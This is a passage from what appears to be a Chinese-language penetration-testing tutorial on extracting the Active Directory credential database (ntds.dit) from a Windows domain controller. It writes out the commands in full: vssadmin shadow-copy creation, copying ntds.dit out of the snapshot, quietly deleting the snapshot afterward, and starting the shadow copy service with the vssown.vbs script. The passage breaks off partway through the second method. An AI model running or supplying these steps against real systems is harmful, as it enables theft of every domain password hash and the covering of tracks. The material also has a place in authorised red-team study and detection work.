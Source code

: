 ![]()

## 利用vssadmin提取ntds.dit

创建C盘的卷影拷贝

    
    
    vssadmin create shadow /for=c:

![](https://gitee.com/fuli009/images/raw/master/public/20220419115514.png)

卷影副本 ID: {6d2ab801-10ca-4890-8b89-e8051ddf0286}  
卷影副本卷名: \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2

在创建的卷影拷贝中将ntds.dit复制出来

    
    
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\\ntds.dit

![](https://gitee.com/fuli009/images/raw/master/public/20220419115515.png)

此时在C盘目录下发现ntds.dit已经被复制出来

![](https://gitee.com/fuli009/images/raw/master/public/20220419115516.png)

删除快照

    
    
    vssadmin delete shadows /for=c: /quiet

![](https://gitee.com/fuli009/images/raw/master/public/20220419115517.png)

## 利用vssown.vbs提取ntds.dit

vssown.vbs
github链接:https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs

首先查找一下ntds.dit的位置

    
    
    reg query HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters

![]()

启动卷影拷贝服务

    
    
    cscript //nologo vssown.vbs /start

![](https://gitee.com/fuli009/images/raw/master/public/20220419115518.png)

创建一个C盘的卷影拷贝

    
    